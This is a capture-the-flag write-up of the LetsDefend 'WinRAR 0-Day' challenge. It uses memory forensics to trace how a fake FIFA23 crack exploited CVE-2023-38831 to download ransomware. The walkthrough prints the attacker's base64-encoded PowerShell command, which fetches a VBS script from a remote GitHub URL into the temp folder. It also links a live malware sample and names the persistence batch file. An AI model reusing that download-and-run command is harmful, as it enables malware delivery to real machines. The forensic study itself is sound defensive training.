# [LetsDefend - WinRAR 0-Day](https://app.letsdefend.io/challenge/winrar-0-day)
Created: 03/04/2024 9:09
Last Updated: 03/04/2024 10:48
* * *
<div align=center>

**WinRAR 0-Day**

</div>
It appears that there are numerous cracked versions of popular games available. However, it seems we may have downloaded the wrong one, as it exhibits suspicious behavior. We require your assistance in investigating this matter.

Tools Required:
1- Volatility3
2- Cyberchef

Memory dump: `/root/Desktop/Winny.vmem`

This challenge prepared by [@MMOX](https://www.linkedin.com/in/0xMM0X)
* * *
Read about this [vulnerability](https://blog.securelayer7.net/analysis-of-cve-2023-38831-zero-day-vulnerability-in-winrar/) first to gain an insight about this 0-day and here is [POC](https://medium.com/@mohammedthoufeeq_25137/winrar-rce-cve-2023-38831-zeroday-latest-4593ebcd6b33) of this vulnerability

## Start Investigation
> What is the suspected process?


We got vmem file as an evidence file and volatility 3 to analyze this memory file

used plugin `windows.pstree` to show process tree, there are 2 WinRAR.exe under explorer.exe which matchs name and scenario of this challenge.
```
WinRAR.exe
```

> We suspect that the crack had another name. Can you find the old name of that crack?


used `windows.cmdline` plugin, you can see that winrar was used to open suspicious rar file.
```
b6wzzawS.rar
```

> What is the new crack filename?


I used filescan plugin piped into text file then filter with Downloads folder, you can see that there is 1 suspicious rar file there and its FIFA23CRACK which make sense since Fifa23 is a football game.
```
FIFA23CRACK.rar
```

> What is the command that executed the remote request?

We got an offset/virtual address of the suspicious cracked game archive so we can use dumpfile plugin to dump this file out


I used strings to see how many files had been compressed into this file and there are 2 files

Then I used 7z to extract those file out

First file is PNG file in disguise which also make sense because in this CVE, user needed to click ReadMe.txt first then malicious command inside cmd file will be executed

Here is the malicious powershell command 
```
powershell.exe -EncodedCommand SW52b2tlLVdlYlJlcXVlc3QgLVVyaSAnaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL0Vsc2ZhN0VsNGEyeS9TZWNyZXRXZWFwL21haW4vU2Q0cUF4MjEudmJzJyAtT3V0RmlsZSAiJGVudjpURU1QXFNkNHFBeDIxLnZicyI=
```

> The external link has a username. What is it?


Decode base64 strings, you can see that this is a command to download vbs script from github
```
Elsfa7El4a2y
```

> It seems the creator of that ransomware uploaded a file to the cloud. Can you find which domain it was downloaded from?

[Here](https://bazaar.abuse.ch/sample/0352598565fbafe39866f3c9b5964b613fd259ea12a8fe46410b5d119db97aba) is the link to sample, Download it and analyze it using any text editor.

You can see that this script used HTTP request to somewhere, We need to decode that weird suspiciously long string and we also need to know what OwOwO function does


so its to make HEX to ASCII

come back to replace, we need to know which strings to be replace and what is the new replacing string is 

Use Find / Replace recipe on Cyberchef, we got Hex

Then use From Hex, We finally got an url
```
download850.mediafire.com
```

> The attacker left the file behind in someplace to come back later for the device. What is the full location of this file?


You can see that there is .savetofile function here with Reverse string and replace string, that string also look like base64 too

We can use Find / Replace with From Base64 to decode, the result is the file that was created to stay persistence. 
```
c:\windows\temp\B4cKL4T3R.bat
```

* * *
## Summary

Culprit of this incident is FIFA23CRACK.rar which was designed to exploit CVE-2023-38831 vulnerability by baiting user to click ReadMe.txt inside WinRAR program and then it will executed malicious powershell command from other file inside rar archive file which lead to download ransomware to a system.
<div align=center>


</div>

* * *
